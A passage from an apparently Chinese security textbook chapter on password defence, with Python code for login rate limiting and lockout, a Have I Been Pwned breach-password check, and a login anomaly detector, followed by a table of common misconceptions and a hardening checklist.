    _attempts: dict = field(default_factory=lambda: defaultdict(list))
    _lockouts: dict = field(default_factory=lambda: {})
    _lock: threading.Lock = field(default_factory=threading.Lock)
    
    def check_allowed(self, identifier: str) -> tuple[bool, str, int]:
        """
        检查是否允许尝试登录。
        
        Args:
            identifier: 用户名或 IP 地址
        
        Returns:
            (是否允许, 原因, 建议等待秒数)
        """
        now = time.time()
        
        with self._lock:
            # 检查是否在锁定状态
            if identifier in self._lockouts:
                lockout_end = self._lockouts[identifier]
                if now < lockout_end:
                    remaining = int(lockout_end - now)
                    return False, f"账户已锁定，请 {remaining} 秒后重试", remaining
                else:
                    # 锁定已过期
                    del self._lockouts[identifier]
                    self._attempts[identifier] = []
            
            # 清理过期的尝试记录
            attempts = self._attempts[identifier]
            self._attempts[identifier] = [t for t in attempts if now - t < 3600]
            attempts = self._attempts[identifier]
            
            # 检查每分钟限制
            recent_minute = [t for t in attempts if now - t < 60]
            if len(recent_minute) >= self.max_attempts_per_minute:
                delay = int(self.progressive_delay_base * (2 ** len(recent_minute)))
                return False, f"尝试过于频繁，请等待 {delay} 秒", delay
            
            # 检查每小时限制
            if len(attempts) >= self.max_attempts_per_hour:
                self._lockouts[identifier] = now + self.lockout_duration
                return False, f"已超过小时限制，账户锁定 {self.lockout_duration} 秒", self.lockout_duration
            
            return True, "允许", 0
    
    def record_attempt(self, identifier: str, success: bool):
        """记录一次登录尝试"""
        now = time.time()
        
        with self._lock:
            if success:
                # 登录成功，清除记录
                self._attempts.pop(identifier, None)
                self._lockouts.pop(identifier, None)
            else:
                self._attempts[identifier].append(now)
    
    def get_status(self, identifier: str) -> dict:
        """获取当前状态"""
        now = time.time()
        with self._lock:
            attempts = self._attempts.get(identifier, [])
            recent = [t for t in attempts if now - t < 3600]
            locked = identifier in self._lockouts and now < self._lockouts[identifier]
            
            return {
                'identifier': identifier,
                'attempts_last_hour': len(recent),
                'attempts_last_minute': len([t for t in recent if now - t < 60]),
                'is_locked': locked,
                'lockout_remaining': int(self._lockouts[identifier] - now) if locked else 0
            }
```

#### 13.7.4.4 泄露凭据检测

**NIST SP 800-63B 建议**：在用户设置或更改密码时，检查新密码是否出现在已知的泄露密码数据库中。

```python
import hashlib
import requests

class BreachChecker:
    """
    使用 Have I Been Pwned (HIBP) API 检查密码是否已泄露。
    使用 k-匿名模型保护用户隐私：只发送哈希前缀。
    """
    
    API_URL = "https://api.pwnedpasswords.com/range/"
    
    def check_password(self, password: str) -> tuple[bool, int]:
        """
        检查密码是否在已泄露数据库中。
        
        原理：
        1. 计算密码的 SHA-1 哈希
        2. 只发送哈希的前 5 位到 API
        3. API 返回所有匹配前缀的哈希后缀和出现次数
        4. 在本地比对完整哈希
        
        这样 API 无法知道用户查询的是哪个密码。
        
        Args:
            password: 待检查的密码
        
        Returns:
            (是否已泄露, 泄露次数)
        """
        sha1 = hashlib.sha1(password.encode('utf-8')).hexdigest().upper()
        prefix, suffix = sha1[:5], sha1[5:]
        
        try:
            response = requests.get(f"{self.API_URL}{prefix}", timeout=10)
            response.raise_for_status()
            
            for line in response.text.splitlines():
                hash_suffix, count = line.split(':')
                if hash_suffix == suffix:
                    return True, int(count)
            
            return False, 0
        except requests.RequestException:
            # API 不可用时不应阻止用户注册/修改密码
            return False, 0
    
    def check_and_enforce(self, password: str, 
                          max_breach_count: int = 0) -> tuple[bool, str]:
        """
        检查密码并根据策略决定是否允许使用。
        
        Args:
            password: 密码
            max_breach_count: 允许的最大泄露次数（0 = 不允许任何泄露）
        
        Returns:
            (是否允许, 原因说明)
        """
        is_breached, count = self.check_password(password)
        
        if is_breached and count > max_breach_count:
            return False, (
                f"该密码已出现在 {count:,} 次数据泄露中，"
                f"请使用其他密码。建议使用密码管理器生成随机密码。"
            )
        
        return True, "密码检查通过"
```

#### 13.7.4.5 异常登录行为检测

```python
import datetime
from collections import defaultdict
from dataclasses import dataclass

@dataclass
class LoginAnomalyDetector:
    """
    异常登录检测器。
    基于多维度特征识别可疑登录行为。
    """
    
    # 历史登录记录：{username: [LoginRecord, ...]}
    login_history: dict = None
    
    # 阈值配置
    geo_velocity_limit: float = 500.0  # km/h，超过此速度视为异常
    new_device_risk_score: float = 30.0
    unusual_time_risk_score: float = 20.0
    geo_anomaly_risk_score: float = 40.0
    risk_threshold: float = 60.0  # 超过此分数触发告警
    
    def __post_init__(self):
        if self.login_history is None:
            self.login_history = defaultdict(list)
    
    def evaluate_login(self, username: str, ip: str, 
                       geo_location: dict, user_agent: str,
                       login_time: datetime.datetime) -> dict:
        """
        评估一次登录的风险分数。
        
        Args:
            username: 用户名
            ip: 登录 IP
            geo_location: {'country': str, 'city': str, 'lat': float, 'lon': float}
            user_agent: 浏览器 UA
            login_time: 登录时间
        
        Returns:
            {
                'risk_score': float,
                'risk_level': str,  # low/medium/high
                'factors': [str],
                'action': str  # allow/challenge/block
            }
        """
        risk_score = 0.0
        factors = []
        history = self.login_history[username]
        
        # 检查 1：新设备/新浏览器
        known_uas = set(r.user_agent for r in history[-30:])  # 最近30次
        if user_agent not in known_uas and len(known_uas) > 0:
            risk_score += self.new_device_risk_score
            factors.append(f"新设备/浏览器 (已知 {len(known_uas)} 个)")
        
        # 检查 2：新 IP 段
        known_ips = set(r.ip for r in history[-50:])
        if ip not in known_ips and len(known_ips) > 0:
            risk_score += 20
            factors.append(f"新 IP 地址 (已知 {len(known_ips)} 个)")
        
        # 检查 3：地理位置异常
        if history and geo_location:
            last_record = history[-1]
            if last_record.geo_location:
                time_diff = (login_time - last_record.login_time).total_seconds() / 3600
                if time_diff > 0:
                    distance = self._haversine_distance(
                        last_record.geo_location['lat'],
                        last_record.geo_location['lon'],
                        geo_location['lat'],
                        geo_location['lon']
                    )
                    velocity = distance / time_diff
                    if velocity > self.geo_velocity_limit:
                        risk_score += self.geo_anomaly_risk_score
                        factors.append(
                            f"地理异常: 距上次登录 {distance:.0f}km, "
                            f"间隔 {time_diff:.1f}h, 速度 {velocity:.0f}km/h"
                        )
        
        # 检查 4：异常时间段
        hour = login_time.hour
        if hour < 6 or hour > 23:
            risk_score += self.unusual_time_risk_score
            factors.append(f"异常时间段: {hour}:00")
        
        # 检查 5：高频登录
        recent_logins = [
            r for r in history 
            if (login_time - r.login_time).total_seconds() < 3600
        ]
        if len(recent_logins) > 5:
            risk_score += 25
            factors.append(f"近1小时 {len(recent_logins)} 次登录尝试")
        
        # 判定风险等级和建议动作
        if risk_score >= self.risk_threshold:
            risk_level = 'high'
            action = 'block'
        elif risk_score >= self.risk_threshold * 0.6:
            risk_level = 'medium'
            action = 'challenge'  # 要求 MFA 验证
        else:
            risk_level = 'low'
            action = 'allow'
        
        return {
            'risk_score': risk_score,
            'risk_level': risk_level,
            'factors': factors,
            'action': action
        }
    
    @staticmethod
    def _haversine_distance(lat1, lon1, lat2, lon2):
        """计算两点间的球面距离（km）"""
        import math
        R = 6371  # 地球半径（km）
        dlat = math.radians(lat2 - lat1)
        dlon = math.radians(lon2 - lon1)
        a = (math.sin(dlat/2)**2 + 
             math.cos(math.radians(lat1)) * 
             math.cos(math.radians(lat2)) * 
             math.sin(dlon/2)**2)
        return R * 2 * math.asin(math.sqrt(a))
```

### 13.7.5 常见误区与纠正

| 误区 | 现实 | 正确做法 |
|------|------|---------|
| "定期强制改密码更安全" | NIST 已不推荐定期强改，用户倾向于设置弱密码或微小变体（Password1→Password2） | 仅在凭据疑似泄露时强制更改 |
| "密码复杂度要求（大小写+数字+符号）足够" | 用户倾向于满足最低要求的可预测模式（your_password!） | 鼓励长密码/密码短语，检查泄露库 |
| "MD5 加盐就够安全了" | MD5 计算速度太快，GPU 每秒 1640 亿次 | 使用 bcrypt/Argon2id |
| "密码策略越严格越好" | 过严的策略迫使用户使用可预测的模式 | 平衡安全性与可用性 |
| "密码哈希用了 SHA-256 所以安全" | 通用哈希算法速度太快，无法抵御暴力破解 | 必须使用慢速哈希函数 |
| "我的网站太小不会被攻击" | 自动化扫描工具无差别攻击，弱密码被秒破 | 所有系统都需要基本的密码安全措施 |
| "密码管理器不安全" | 密码管理器远比记忆/复用密码安全 | 推荐所有用户使用密码管理器 |
| "MFA 太麻烦用户不会接受" | TOTP/FIDO2 只需几秒，安全收益巨大 | 实施渐进式 MFA 策略 |

### 13.7.6 防御方案实施清单

以下是可直接落地的密码安全加固清单：

**密码存储**：
- [ ] 使用 Argon2id（新系统）或 bcrypt（已有系统）存储密码
- [ ] 每个密码使用密码学安全的随机数生成盐值（≥16 字节）
- [ ] Argon2id 推荐参数：memory=64MB, iterations=3, parallelism=4
- [ ] bcrypt 推荐 cost factor ≥ 12
- [ ] 定期评估和提升计算参数（随硬件升级而增加）

**认证策略**：
- [ ] 强制最小密码长度 12 位（管理员账户 16 位）
- [ ] 实施泄露密码检查（HIBP API 或本地泄露库）
- [ ] 部署 MFA（优先 FIDO2，其次 TOTP，避免 SMS）
- [ ] 实施渐进式延迟和智能锁定（非简单次数锁定）
- [ ] 支持密码短语（passphrase），放宽复杂度要求

**监控与响应**：
- [ ] 记录所有登录尝试（成功/失败/IP/UA/时间）
- [ ] 部署异常登录检测（新设备/新位置/异常时间）
- [ ] 配置暴力破解告警（SIEM 规则）
- [ ] 定期监控 Have I Been Pwned 企业版
- [ ] 制定凭据泄露应急响应流程

**用户教育**：
- [ ] 培训员工使用密码管理器
- [ ] 定期进行钓鱼模拟演练
- [ ] 清晰告知密码策略和安全最佳实践
- [ ] 提供密码强度实时反馈（注册/修改时）

### 13.7.7 总结

密码安全不是单一技术问题，而是涉及存储、认证、监控、教育的系统工程。从本案例的测试结果可以看到：

1. **弱密码存储是最大的安全隐患**——使用 MD5/SHA 等快速哈希存储密码，等于在攻击者面前裸奔
2. **密码策略需要科学设计**——不是越复杂越好，而是要引导用户产生真正安全的密码
3. **MFA 是密码安全最有效的补强**——即使密码被破解，MFA 仍能阻止绝大多数攻击
4. **监控和响应是最后防线**——即使攻击者获取了凭据，快速检测和响应能将损失降到最低
5. **密码管理器是最佳实践**——让每个网站使用唯一的强随机密码，从根本上消除凭据复用风险

密码终将被更先进的认证方式（FIDO2、无密码认证）取代，但在过渡期内，做好密码的全生命周期安全仍然是每个安全从业者的必修课。
